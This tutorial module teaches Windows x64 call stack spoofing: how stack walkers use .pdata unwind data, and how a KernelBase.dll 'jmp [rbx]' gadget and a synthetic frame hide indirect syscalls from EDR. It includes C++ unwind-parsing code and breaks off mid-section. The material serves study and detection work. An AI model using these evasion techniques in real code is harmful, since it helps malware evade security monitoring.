





# Module 4.3: Call Stack Spoofing, `.pdata` Unwinding & ETW/AMSI Internals

Let's build this from **absolute zero** using concrete memory addresses and real assembly instructions. Forget all the buzzwords for a minute—first, let's understand **what the Call Stack actually looks like in RAM (`RSP`)** and **how a debugger (like `x64dbg`) or an EDR reads it**.

---

## 1. First Principles: How Does a Normal Call Stack Look in RAM?

Suppose you write a normal Windows program in C that allocates memory using `VirtualAlloc`:
- `main()` (inside `main.exe`) calls `KernelBase!VirtualAlloc`
- `KernelBase!VirtualAlloc` calls `ntdll!NtAllocateVirtualMemory`

Let's trace **every single assembly instruction** that touches the Stack Pointer (`RSP`) from `main()` all the way down to the `syscall` instruction inside `ntdll.dll`.

### Step-by-Step Trace of `RSP` in RAM

Suppose at the moment `main()` is about to call `VirtualAlloc`, **`RSP = 0x1000`**.

#### Step A: `main()` Executes `call KernelBase!VirtualAlloc`
```nasm
; Inside main.exe!main():
0x00007FF600001050:  call KernelBase!VirtualAlloc   ; (5-byte instruction)
0x00007FF600001055:  mov  ecx, eax                  ; <-- Where main() wants to resume after the call!
```
What does the CPU hardware do when it executes `call`?
1. It subtracts `8` from `RSP`: **`RSP` becomes `0x1000 - 8 = 0x0FF8`**.
2. It writes the address of the next instruction (**`0x00007FF600001055`**, the "Return Address") into memory at `[0x0FF8]`.
3. It jumps `RIP` to the start of `KernelBase!VirtualAlloc` (`0x00007FF811112000`).

Right now, the stack in RAM looks like this:
```text
Stack Address       8-Byte Value in RAM      Meaning
------------------------------------------------------------------------------------
0x0FF8  <-- RSP     0x00007FF600001055       Return Address back to main()!
0x1000              ...                      (main's own stack variables)
```

---

#### Step B: `KernelBase!VirtualAlloc` Runs Its Prologue (Allocating Its Stack Frame)
Now `RIP` is at the beginning of `KernelBase!VirtualAlloc` (`0x00007FF811112000`).
Before doing any work, `KernelBase!VirtualAlloc` needs to save two registers it plans to use (`RBX` and `RDI`) and carve out `0x30` (48) bytes of workspace on the stack for local variables and shadow space:

```nasm
; Inside KernelBase.dll!VirtualAlloc:
; === 1. PROLOGUE (Carving out a 0x40-byte stack frame) ===
0x00007FF811112000:  push rbx         ; RSP = 0x0FF8 - 8    = 0x0FF0  (8 bytes)
0x00007FF811112001:  push rdi         ; RSP = 0x0FF0 - 8    = 0x0FE8  (8 bytes)
0x00007FF811112002:  sub  rsp, 0x30   ; RSP = 0x0FE8 - 0x30 = 0x0FB8  (48 bytes)
                                      ; Total bytes subtracted from RSP = 8 + 8 + 48 = 64 (0x40) bytes!

; === 2. BODY (Calling ntdll!NtAllocateVirtualMemory) ===
...
0x00007FF811112040:  call ntdll!NtAllocateVirtualMemory
0x00007FF811112045:  test eax, eax    ; <-- Where KernelBase wants to resume after the syscall!

; === 3. EPILOGUE (Cleaning up the 0x40-byte stack frame before returning to main) ===
0x00007FF811112050:  add  rsp, 0x30   ; Undo 'sub rsp, 0x30' (RSP = 0x0FE8)
0x00007FF811112054:  pop  rdi         ; Undo 'push rdi'      (RSP = 0x0FF0)
0x00007FF811112055:  pop  rbx         ; Undo 'push rbx'      (RSP = 0x0FF8)
0x00007FF811112056:  ret              ; Pops [0x0FF8] (0x00007FF600001055) and returns to main()!
```

Count the total bytes that `KernelBase!VirtualAlloc`'s prologue subtracted from `RSP`:
- `push rbx` (`8` bytes) + `push rdi` (`8` bytes) + `sub rsp, 0x30` (`48` bytes) = **`64` bytes (`0x40` bytes)**.
- Because `RSP` moved down by `0x40` bytes (`0x0FF8` $\rightarrow$ `0x0FB8`), the return address back to `main()` (`0x00007FF600001055`) is now sitting **`0x40` bytes deeper in memory** at `[0x0FF8]`!

---

#### Step C: `KernelBase!VirtualAlloc` Executes `call ntdll!NtAllocateVirtualMemory`
At `0x00007FF811112040`, `KernelBase!VirtualAlloc` executes `call ntdll!NtAllocateVirtualMemory`:
1. The `call` instruction subtracts `8` from `RSP`: **`RSP` becomes `0x0FB8 - 8 = 0x0FB0`**.
2. It writes `KernelBase`'s return address (**`0x00007FF811112045`**) into `[0x0FB0]`.
3. It jumps `RIP` to `ntdll!NtAllocateVirtualMemory` (`0x00007FF8BE0A2040`).

Inside `ntdll!NtAllocateVirtualMemory`:
```nasm
0x00007FF8BE0A2040:  mov r10, rcx
0x00007FF8BE0A2043:  mov eax, 18h
...
0x00007FF8BE0A2052:  syscall          ; <-- WE PAUSE RIGHT HERE! (RSP is still 0x0FB0!)
0x00007FF8BE0A2054:  ret
```
Notice that `ntdll!NtAllocateVirtualMemory` **never touches `RSP`** (no `push`, no `sub rsp`). Functions that never allocate stack space or call other functions are called **Leaf Functions** (their stack frame size is **`0` bytes**).

Now look at the **exact contents of RAM starting at `RSP` (`0x0FB0`)** when the CPU is paused on `syscall`:

```text
RAM LAYOUT OF THE STACK WHEN PAUSED ON 'syscall' (Current RSP = 0x0FB0)
+---------------------+------------------------+----------------------------------------------------+
| RAM Address         | 8-Byte Value in RAM    | What Is This?                                      |
+---------------------+------------------------+----------------------------------------------------+
| 0x0FB0  <-- [RSP]   | 0x00007FF811112045     | Return Address #1 (KernelBase!VirtualAlloc + 0x45) |
+---------------------+------------------------+----------------------------------------------------+
| 0x0FB8              | 0x0000000000000000     | \                                                  |
| 0x0FC0              | 0x0000000000000000     |  |                                                 |
| 0x0FC8              | 0x0000000000000000     |  | 48 bytes (0x30) from `sub rsp, 0x30`            |
| 0x0FD0              | 0x0000000000000000     |  |                                                 |
| 0x0FD8              | 0x0000000000003000     |  |                                                 |
| 0x0FE0              | 0x0000000000000004     | /                                                  |
| 0x0FE8              | 0x0000000000000000     | 8 bytes from `push rdi`                            |
| 0x0FF0              | 0x0000027E9D663600     | 8 bytes from `push rbx`                            |
|                     |                        | === Total KernelBase Frame Size = 0x40 (64) B ===  |
+---------------------+------------------------+----------------------------------------------------+
| 0x0FF8  [RSP+0x48]  | 0x00007FF600001055     | Return Address #2 (main.exe!main + 0x55)           |
+---------------------+------------------------+----------------------------------------------------+
```

---

## 2. How Does Windows (or `x64dbg` / an EDR) Know Where Return Address #2 Is?!

Look closely at the RAM table above when paused on `syscall` (`RSP = 0x0FB0`):
- **Finding Return Address #1 (`0x00007FF811112045`) is easy:** Because `ntdll!NtAllocateVirtualMemory` is a leaf function (stack size = `0`), Return Address #1 is sitting right on top of the stack at **`[0x0FB0]` (`[RSP]`)**!
- **Now ask yourself: After reading `[0x0FB0]`, how does `x64dbg` (or an EDR) find Return Address #2 (`0x00007FF600001055` at `0x0FF8`)?!**
  Between `0x0FB8` and `0x0FF8`, there are **8 memory slots (`0x40` bytes)** full of random numbers (`0x3000`, `0x04`, saved `RDI`, saved `RBX`).
  How does Windows know it needs to skip **exactly `0x40` bytes** (`0x0FB8 + 0x40 = 0x0FF8`) to find `main.exe`'s return address, instead of skipping `0x20` bytes or `0x80` bytes?!

### The Secret: The `.pdata` Section ("The Compiler's Stack Size Cheat Sheet")

When Microsoft compiled `KernelBase.dll`, the compiler recorded the stack frame size of every single function inside a read-only table in the PE file called the **`.pdata` section** (`DataDirectory[IMAGE_DIRECTORY_ENTRY_EXCEPTION]`, index `3`).

If you open `KernelBase.dll` in **PE-bear** and click the **Exception (`.pdata`)** tab, you will see thousands of 12-byte rows. Each row is a **`RUNTIME_FUNCTION`** struct:

```text
typedef struct _RUNTIME_FUNCTION {
    DWORD BeginAddress; // RVA where the function starts (e.g., 0x00012000)
    DWORD EndAddress;   // RVA where the function ends   (e.g., 0x00012060)
    DWORD UnwindData;   // RVA pointing to an UNWIND_INFO struct in .rdata
} RUNTIME_FUNCTION, *PRUNTIME_FUNCTION;
```

And what is inside the **`UNWIND_INFO`** struct at `UnwindData`?
It is literally a list of tiny 2-byte records (**`UNWIND_CODE`s**) listing every instruction in that function's prologue that changed `RSP`!
For `KernelBase!VirtualAlloc` above, its `UNWIND_INFO` contains 3 `UNWIND_CODE` entries:
1. **`UWOP_ALLOC_SMALL` (`UnwindOp = 2`, `OpInfo = 5`):**
   - Formula: $(\text{OpInfo} \times 8) + 8 = (5 \times 8) + 8 = \mathbf{48\text{ bytes (0x30)}}$ (`sub rsp, 0x30`).
2. **`UWOP_PUSH_NONVOL` (`UnwindOp = 0`, `OpInfo = RDI`):**
   - Formula: **$+8\text{ bytes}$** (`push rdi`).
3. **`UWOP_PUSH_NONVOL` (`UnwindOp = 0`, `OpInfo = RBX`):**
   - Formula: **$+8\text{ bytes}$** (`push rbx`).

When Windows (`ntdll!RtlVirtualUnwind`), `x64dbg`, System Informer, or an EDR wants to walk the Call Stack:
1. It reads `[0x0FB0]` (`[RSP]`) and sees **`0x00007FF811112045`** (`KernelBase!VirtualAlloc + 0x45`).
2. It looks up `VirtualAlloc + 0x45` in `KernelBase.dll`'s `.pdata` table and reads its `UNWIND_INFO`.
3. It adds up the `UNWIND_CODE`s: $48 + 8 + 8 = \mathbf{64\text{ bytes (0x40)}}$!
4. It skips `0x40` bytes past `0x0FB8` ($0x0FB8 + 0x40 = \mathbf{0x0FF8}$) and reads **`[0x0FF8]`**, which is **`0x00007FF600001055` (`main.exe!main + 0x55`)**!

---

## 3. What Was Wrong With Our Stack in Lab 4.2? (Look at Your Own Screenshot!)

In Lab 4.2, you built `DoIndirectSyscall`:
```nasm
DoIndirectSyscall PROC
    mov r10, rcx
    mov eax, wSystemCall
    jmp qword ptr [qSyscallInsAddr] ; Jumps to ntdll!NtAllocateVirtualMemory + 0x12 (syscall)
DoIndirectSyscall ENDP
```

Let's trace what was sitting at **`[RSP]`** when `DoIndirectSyscall` jumped to `ntdll!NtAllocateVirtualMemory + 0x12`:
1. In `main.cpp`, `main()` executed `call DoIndirectSyscall`.
2. That `call` pushed **`main.exe!main + 0x3E0`** onto **`[RSP]`**.
3. Then `DoIndirectSyscall` executed `jmp` (which does not push anything onto `RSP`) straight to `ntdll!NtAllocateVirtualMemory + 0x12` (`syscall`).

Look at what the stack in RAM looked like in Lab 4.2 when paused on `syscall`:
```text
LAB 4.2 STACK WHEN PAUSED ON 'syscall' INSIDE ntdll!NtAllocateVirtualMemory:
+---------------------+------------------------+----------------------------------------------------+
| RAM Address         | 8-Byte Value in RAM    | What An EDR / x64dbg Sees:                         |
+---------------------+------------------------+----------------------------------------------------+
| 0x0FB0  <-- [RSP]   | 0x00007FF6616C7C40     | Return Address #1: main.exe!main + 0x3E0           |
|                     |                        |   [!] WAIT A SECOND! Where is KernelBase.dll?!     |
|                     |                        |   [!] Or if called from our Manual-Mapped DLL      |
|                     |                        |       (Lab 4.1), [RSP] is 0x000002B627AC1050       |
|                     |                        |       (UNBACKED PRIVATE MEMORY -> INSTANT ALERT!)  |
+---------------------+------------------------+----------------------------------------------------+
```

Look at why an EDR catches that:
- **RIP (Frame 0)** is `ntdll!NtAllocateVirtualMemory + 0x14` (Clean!).
- **But `[RSP]` (Frame 1)** is `main.exe` (or in a Reflective DLL from Module 4.1, **unbacked `Private: Commit` memory**)! No normal Windows program calls `ntdll!NtAllocateVirtualMemory` without `KernelBase.dll` on the stack, and no legitimate DLL ever has a return address in unbacked `Private` memory!

---

## 4. How Call Stack Spoofing Works (Step-by-Step With Concrete Numbers!)

Our goal is simple:
When our Indirect Syscall executes `syscall` inside `ntdll.dll`, we want **`[RSP]` (Return Address #1)** to point inside **`KernelBase.dll`**, and we want `main.exe`'s real return address to sit below a fake `KernelBase.dll` stack frame!

Let's see how we build that fake (`Synthetic`) `KernelBase.dll` stack frame—and solve the two problems that come with it.

### Problem 1: If `[RSP]` Points to `KernelBase.dll`, What Happens When `ntdll.dll` Executes `ret`?!

Think about what happens right after `syscall` finishes in `ntdll!NtAllocateVirtualMemory`:
```nasm
0x00007FF8BE0A2052:  syscall
0x00007FF8BE0A2054:  ret        ; <-- POPS [RSP] AND JUMPS TO IT!
```
When `ntdll.dll` executes `ret` at `+0x14`, the CPU pops the address at `[RSP]` and **jumps `RIP` to that address**!
- If we put a random address inside `KernelBase.dll` at `[RSP]`, then `ret` will jump into the middle of `KernelBase.dll`, execute random instructions, and **crash our program**!
- Instead, we need to put the address of a specific instruction inside `KernelBase.dll` at `[RSP]` that will **immediately jump back to our own code in `main.exe`**!

#### The Solution: A `jmp qword ptr [rbx]` (`FF 23`) Gadget Inside `KernelBase.dll`!
Inside `KernelBase.dll`'s `.text` section, the 2-byte byte sequence **`FF 23`** appears inside several functions.
In x64 assembly, `FF 23` is:
```nasm
jmp qword ptr [rbx]
```
What does `jmp qword ptr [rbx]` do? It reads the 8-byte address stored at `[rbx]` and jumps `RIP` to that address!
And why is **`RBX`** so special?
- In the Microsoft x64 ABI, **`RBX` is a non-volatile (callee-saved) register**.
- That means **neither `ntdll.dll` nor the Windows Kernel (`syscall`) will ever overwrite `RBX`**!
- If we put the address of our own cleanup code (`RestoreAfterSyscall`) into memory (`qRestoreStubPtr`) and set **`RBX = &qRestoreStubPtr`** before executing `syscall`, then:
  1. **During `syscall`:** `[RSP]` holds `0x00007FF811154320` (the address of `FF 23` inside **`KernelBase.dll`**!). Any stack walker inspecting `[RSP]` sees **`KernelBase.dll`** as the caller of the syscall!
  2. **When `ntdll.dll` executes `ret`:** `ret` pops `0x00007FF811154320` off `[RSP]` and jumps into **`KernelBase.dll`**!
  3. **`KernelBase.dll` executes `jmp qword ptr [rbx]` (`FF 23`):** which immediately jumps right back to `RestoreAfterSyscall` in `main.exe`!

---

### Problem 2: How Big Should the Fake `KernelBase.dll` Stack Frame Be?

Suppose we found `FF 23` (`jmp qword ptr [rbx]`) at address `0x00007FF811154320` inside some function in `KernelBase.dll`.
When `x64dbg`, System Informer, or an EDR walks the stack during `syscall`:
1. It reads `[RSP]` (`0x0FB0`) and sees **`0x00007FF811154320`** (inside `KernelBase.dll`).
2. Next, it wants to find **Return Address #2** (`main.exe`). How does it find Return Address #2?
   **It looks up `0x00007FF811154320` in `KernelBase.dll`'s `.pdata` table and calculates that function's `UNWIND_INFO` stack size!**
3. Suppose `KernelBase.dll`'s `.pdata` table says that function has a stack frame size of **`0x48` (72) bytes**.
   Then the stack walker will look at **`RSP + 8 + 0x48` (`0x0FB8 + 0x48 = 0x1000`)** to find `main.exe`'s return address!
4. Therefore, before pushing `0x00007FF811154320` (`qGadgetAddr`) onto `RSP`, our assembly stub **must subtract `0x48` bytes (`dwGadgetFrameSize`) from `RSP`** (`sub rsp, 0x48`), so that `main.exe`'s return address sits at the **exact byte offset (`+0x48`)** that `KernelBase.dll`'s `.pdata` table tells the stack walker to check!

---

### Trace the Entire Spoofed Call Lifecycle (With Concrete Addresses!)

Let's watch **`RSP`** and **`RIP`** through all 5 steps of `DoSpoofedIndirectSyscall`.
Suppose:
- `main()` calls `DoSpoofedIndirectSyscall` with **`RSP = 0x1000`**.
- `qGadgetAddr` = `0x00007FF811154320` (`jmp qword ptr [rbx]` inside `KernelBase.dll`).
- `dwGadgetFrameSize` = **`0x48` bytes** (calculated from `KernelBase.dll`'s `.pdata` `UNWIND_INFO` for the function containing `0x00007FF811154320`).

```text
====================================================================================================
STEP-BY-STEP MEMORY TRACE OF DoSpoofedIndirectSyscall
====================================================================================================

[STEP 1] main() executes 'call DoSpoofedIndirectSyscall' (Pushes 0x00007FF600001055 onto RSP):
         RSP = 0x0FF8:
         +--------------------+------------------------+----------------------------------------+
         | 0x0FF8  <-- RSP    | 0x00007FF600001055     | Return Address to main.exe!main + 0x55 |
         +--------------------+------------------------+----------------------------------------+

[STEP 2] DoSpoofedIndirectSyscall carves out a 0x48-byte Fake Frame ('sub rsp, 0x48') WITHOUT
         popping main's return address (so main's return address stays at 0x0FF8!), copies Arg 5
         & Arg 6 into [RSP+0x20] and [RSP+0x28], and executes 'push qGadgetAddr':
         - 'sub rsp, 0x48' moves RSP from 0x0FF8 -> 0x0FB0
         - 'push qGadgetAddr' moves RSP from 0x0FB0 -> 0x0FA8 and writes qGadgetAddr at [0x0FA8]!

         Look at RAM now (when jumping to ntdll!NtAllocateVirtualMemory + 0x12):
         +--------------------+------------------------+----------------------------------------+
         | 0x0FA8  <-- RSP    | 0x00007FF811154320     | Frame 1: KernelBase.dll ('jmp [rbx]')! |
         +--------------------+------------------------+----------------------------------------+
         | 0x0FB0 .. 0x0FF7   | [ 0x48 bytes (72 B) ]  | Synthetic KernelBase.dll Stack Frame!  |
         |   - 0x0FD0 (+0x28) | Arg 5 (AllocationType) | (Copied here so syscall finds Arg 5!)  |
         |   - 0x0FD8 (+0x30) | Arg 6 (Protect)        | (Copied here so syscall finds Arg 6!)  |
         +--------------------+------------------------+----------------------------------------+
         | 0x0FF8  (RSP+0x50) | 0x00007FF600001055     | Frame 2: main.exe!main + 0x55!         |
         +--------------------+------------------------+----------------------------------------+

[STEP 3] CPU is paused on 'syscall' at ntdll!NtAllocateVirtualMemory + 0x12:
         What does x64dbg / System Informer / an EDR Stack Walker see?!
         - Frame 0 (RIP):       ntdll.dll!NtAllocateVirtualMemory + 0x14
         - Frame 1 ([0x0FA8]):  KernelBase.dll!<Func> + offset  (Reads .pdata -> FrameSize = 0x48!)
         - Frame 2 ([0x0FF8]):  main.exe!main + 0x55            (Found at 0x0FA8 + 8 + 0x48 = 0x0FF8!)
         --> A 100% VALID, UNBROKEN CALL STACK THROUGH KernelBase.dll!

[STEP 4] Syscall finishes in Ring 0, returns to ntdll + 0x14, and ntdll executes 'ret':
         - 'ret' pops [0x0FA8] (RSP becomes 0x0FB0) and jumps RIP to 0x00007FF811154320 (KernelBase.dll)
         - At 0x00007FF811154320, KernelBase.dll executes 'jmp qword ptr [rbx]'!
         - Since RBX points to RestoreAfterSyscall, RIP jumps straight to RestoreAfterSyscall!

[STEP 5] RestoreAfterSyscall cleans up the Synthetic Frame and returns to main():
         - Executes 'add rsp, 0x48' -> RSP moves from 0x0FB0 back to 0x0FF8!
         - Restores original RBX ('mov rbx, qSavedRbx')
         - Executes 'ret' -> Pops [0x0FF8] (0x00007FF600001055) and returns cleanly to main()!
====================================================================================================
```

Look at **`[STEP 2]`** and **`[STEP 5]`** in the diagram above—notice how much simpler that is when we **leave `main.exe`'s return address sitting on the stack at `0x0FF8`** instead of popping it into a global variable!
Let's verify why leaving `main.exe`'s return address on the stack at `0x0FF8` is **10x cleaner and makes the Call Stack in `x64dbg` 100% real**:
1. When `main()` calls `DoSpoofedIndirectSyscall`, `main()`'s return address (`0x00007FF600001055`) is already sitting on the stack at `[0x0FF8]`.
2. In `DoSpoofedIndirectSyscall`, we do **NOT** `pop` it! We leave `0x00007FF600001055` right there at `[0x0FF8]`!
3. Instead, we immediately execute `sub rsp, rax` (where `rax = dwGadgetFrameSize`, e.g., `0x48` bytes), moving `RSP` down to `0x0FB0`.
4. Then we `push qGadgetAddr` (`8` bytes), moving `RSP` to `0x0FA8`.
5. Now look at the stack while paused on `syscall`:
   - At `[0x0FA8]` (`[RSP]`): sits `qGadgetAddr` (`KernelBase.dll`).
   - Exactly `0x48` bytes below `0x0FB0`, at `[0x0FF8]`: sits **`main.exe`'s real return address (`0x00007FF600001055`)**!
   - So when `x64dbg` unwinds `KernelBase.dll`'s `0x48`-byte frame, **it actually finds `main.exe` sitting at `[0x0FF8]` and displays the entire call chain (`ntdll.dll` $\leftarrow$ `kernelbase.dll` $\leftarrow$ `main.exe`) in the Call Stack window!**
6. And in `RestoreAfterSyscall`, after `add rsp, rcx` (`0x0FB0 + 0x48 = 0x0FF8`), `RSP` points right back at `0x0FF8`, so a normal **`ret`** instruction returns straight to `main()`!

---

## 5. Concrete Code Walkthrough: How to Parse `.pdata` and Find the Gadget in C++

Let's walk through the exact C++ logic you will write in `main.cpp` so every line makes total sense.

### 5.1 Defining the `.pdata` Unwind Structures

`<windows.h>` already defines `RUNTIME_FUNCTION` and `IMAGE_DIRECTORY_ENTRY_EXCEPTION` (`3`), so you only need to add `UNWIND_CODE` and `UNWIND_INFO` at the top of `main.cpp`:

```text
typedef enum _UNWIND_OP_CODES {
    UWOP_PUSH_NONVOL = 0, // 1 slot  : push rbx          -> +8 bytes
    UWOP_ALLOC_LARGE,     // 2-3 slots: sub rsp, 0x120    -> +nextSlot*8 (or +*(DWORD*)&nextSlot)
    UWOP_ALLOC_SMALL,     // 1 slot  : sub rsp, 0x30     -> +(OpInfo * 8 + 8) bytes
    UWOP_SET_FPREG,       // 1 slot  : Uses RBP frame ptr (we skip functions that use this)
    UWOP_SAVE_NONVOL,     // 2 slots : mov [rsp+X], rbx  -> +0 bytes (skip 1 extra slot)
    UWOP_SAVE_NONVOL_FAR, // 3 slots : mov [rsp+X], rbx  -> +0 bytes (skip 2 extra slots)
    UWOP_SAVE_XMM128 = 8, // 2 slots : movaps [rsp+X],xmm-> +0 bytes (skip 1 extra slot)
    UWOP_SAVE_XMM128_FAR, // 3 slots : movaps [rsp+X],xmm-> +0 bytes (skip 2 extra slots)
    UWOP_PUSH_MACHFRAME   // 1 slot  : Hardware interrupt (we skip this)
} UNWIND_OP_CODES;

typedef union _UNWIND_CODE {
    struct {
        BYTE CodeOffset;
        BYTE UnwindOp : 4;
        BYTE OpInfo   : 4;
    };
    USHORT FrameOffset;
} UNWIND_CODE, *PUNWIND_CODE;

typedef struct _UNWIND_INFO {
    BYTE        Version       : 3;
    BYTE        Flags         : 5;
    BYTE        SizeOfProlog;
    BYTE        CountOfCodes;
    BYTE        FrameRegister : 4;
    BYTE        FrameOffset   : 4;
    UNWIND_CODE UnwindCode[1];
} UNWIND_INFO, *PUNWIND_INFO;
```

---

### 5.2 Function 1: `CalculateFunctionStackSize`

Given `BYTE* moduleBase` (`KernelBase.dll`) and a `PRUNTIME_FUNCTION rtFunc` from `.pdata`, how do we calculate `DWORD* outStackSize`?

```text
BOOL CalculateFunctionStackSize(BYTE* moduleBase, PRUNTIME_FUNCTION rtFunc, DWORD* outStackSize)
{
    PUNWIND_INFO unwindInfo = (PUNWIND_INFO)(moduleBase + rtFunc->UnwindData);

    // Skip functions with chained unwind info (Flags & 4) or frame pointers (FrameRegister != 0):
    if ((unwindInfo->Flags & UNW_FLAG_CHAININFO) != 0 || unwindInfo->FrameRegister != 0)
        return FALSE;

    DWORD totalStackSize = 0;

    for (DWORD i = 0; i < unwindInfo->CountOfCodes; i++)
    {
        BYTE unwindOp = unwindInfo->UnwindCode[i].UnwindOp;
        BYTE opInfo   = unwindInfo->UnwindCode[i].OpInfo;

        switch (unwindOp)
        {
            case UWOP_PUSH_NONVOL:      // e.g., push rbx (+8 bytes)
                totalStackSize += 8;
                break;

            case UWOP_ALLOC_SMALL:      // e.g., sub rsp, 0x30 -> (opInfo * 8) + 8
                totalStackSize += (opInfo * 8) + 8;
                break;

            case UWOP_ALLOC_LARGE:      // e.g., sub rsp, 0x120
                if (opInfo == 0) {
                    totalStackSize += unwindInfo->UnwindCode[i + 1].FrameOffset * 8;
                    i += 1;             // Skip the 1 extra slot that held FrameOffset
                } else {
                    totalStackSize += *(DWORD*)(&unwindInfo->UnwindCode[i + 1]);
                    i += 2;             // Skip the 2 extra slots that held the 32-bit size
                }
                break;

            case UWOP_SAVE_NONVOL:      // e.g., mov [rsp+0x20], rbx (does NOT change RSP!)
            case UWOP_SAVE_XMM128:
                i += 1;                 // Skip 1 extra parameter slot
                break;

            case UWOP_SAVE_NONVOL_FAR:
            case UWOP_SAVE_XMM128_FAR:
                i += 2;                 // Skip 2 extra parameter slots
                break;

            default:                    // UWOP_SET_FPREG or UWOP_PUSH_MACHFRAME -> skip function
                return FALSE;
        }
    }

    *outStackSize = totalStackSize;
    return TRUE;
}
```

---

### 5.3 Function 2: `FindGadgetInModule` (Finding `FF 23` Inside `KernelBase.dll`)

Now we walk `KernelBase.dll`'s `.pdata` table (`IMAGE_DIRECTORY_ENTRY_EXCEPTION`).
For each function in `.pdata`:
1. We call `CalculateFunctionStackSize` to get its `frameSize`.
